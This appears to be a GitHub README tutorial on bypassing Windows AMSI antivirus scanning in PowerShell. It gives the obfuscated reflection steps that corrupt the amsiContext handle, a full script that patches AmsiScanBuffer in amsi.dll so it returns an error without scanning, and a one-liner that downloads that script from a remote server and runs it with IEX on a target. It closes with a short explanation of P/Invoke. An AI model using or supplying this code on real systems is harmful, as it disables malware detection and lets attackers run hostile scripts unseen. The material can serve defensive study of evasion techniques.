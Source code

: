 AMSI (Anti-Malware Scan Interface) which is available in Windows 10 and later, is an interface that integrates various security applications (antivirus or anti-malware software) into apps inspecting their behavior before they are executed.

There is a writable entry in `System.Management.Automation.dll` which contains the address of `AmsiScanBuffer`, which is a critical component of AMSI which should have been marked read-only.

## Background
AMSI allows run-time inspection of various apps, services and scripts.

Most of the bypasses corrupt a function or a field in the AMSI library `Amsi.dll` which crashes AMSI, thus bypassing it.

Attackers can bypass AMSI with `CLR Hooking`, which involves changing the protection of the `ScanContent` function by invoking `VirtualProtect` and overwriting it with a hook that returns TRUE. VirtualProtect is not inherently malicious, but malware can misuse it to modify memory in ways that could evade detection by Endpoint Detection and Response systems and anti-virus. But, given the high profile of this attack vector, most advanced attackers avoid calling this API.

## AMSI Bypass Example

First step would be to corrupt the `amsiContext` handle in the .NET `System.Management.Automation`, which is used internally by AMSI in PowerShell.

By corrupting the `amsiContext`, AMSI is disabled for PowerShell scripts.

1. `$x = [Ref].Assembly.GetType('System.Management.Automation.Am'+'siUt'+'ils')`

The snippet above, retrieves `AmsiUtils` class from the PowerShell assembly `System.Management.Automation.dll`, which contains methods used by AMSI.

Here the string concatenation is used to obfuscate the detection by antivirus tools.

2. `$y = $x.GetField('am'+'siCon'+'text',[Reflection.BindingFlags]'NonPublic,Static')`

From the `AmsiUtils` that was stored in the `x` we get the private static field `amsiContext`, which is a handle that AMSI uses internally for its operations.

3. `$z = $y.GetValue($null)`

This gets the current value of the `amsiContext` handle, which is a pointer to the AMSI context in memory.

4. `[Runtime.InteropServices.Marshal]::WriteInt32($z, 0x41424344)`

Now, by using the pointer we got and stored in `z` we write some value like `0x41424344` which is a hex representation of ASCII "ABCD" into the memory location.

After the write this now holds an invalid handle, and any calls to AMSI functions will fail, effectively disabling AMSI.

But, this method will not fully bypass AMSI! This step disabled AMSI within PowerShell.

And we will use this, now to execute another attack which will patch `amsi.dll`. And the first attack will make this possible to run via PowerShell without being detected.







```PowerShell
# Patching amsi.dll AmsiScanBuffer by rasta-mouse
$Win32 = @"

using System;
using System.Runtime.InteropServices;

public class Win32 {

    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("amsi.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "AmsiScanBuffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

We store this file in our server.

In the target we download and execute the script via:

`(new-object system.net.webclient).downloadstring('http://10.4.10.99:8080/amsi_rmouse.txt') | IEX`

This script patches the `AmsiScanBuffer` function in `amsi.dll`.

`Add-Type` dynamically compiles a C# class `Win32` that provides access to Windows API functions via `Plnvoke`.

Then `LoadLibrary` loads the `amsi.dll` into memory, and by using `GetProcAddress`, the memory address of `AmsiScanBuffer` function is retrieved.

Afterwards, by using `VirtualProtect` the memory protection is changed to allow modification, so it makes the memory containing `AmsiScanBuffer` writable.

With `Patch` the bytes provided overwrite the first 6 bytes of the `AmsiScanBuffer`, and then it loads the value `0x80070057` which corresponds to the Windows error code `E_INVALIDARG` into the register, and then by using `RET`, it returns immediately without performing any scanning.

What is `P/Invoke`?

It's short for (Platform Invocation Services) and it is a feature in .NET Framework which allowes managed code ;ole C# or PowerShell script to call unmanaged functions from Windows dynamic link libraries (DLLs).

How it works?

Functions that are only available in native Windows libraries `kernel32.dll`, `user32.dll`, are written in unmanaged languages like C or C++, and `P/Invoke` allows your managed code to invoke these functions directly.

How to use it?

1. Declare the unmanaged function in the managed code using the `[dllimport]` attribute.
2. Call the function as if it were a normal method.


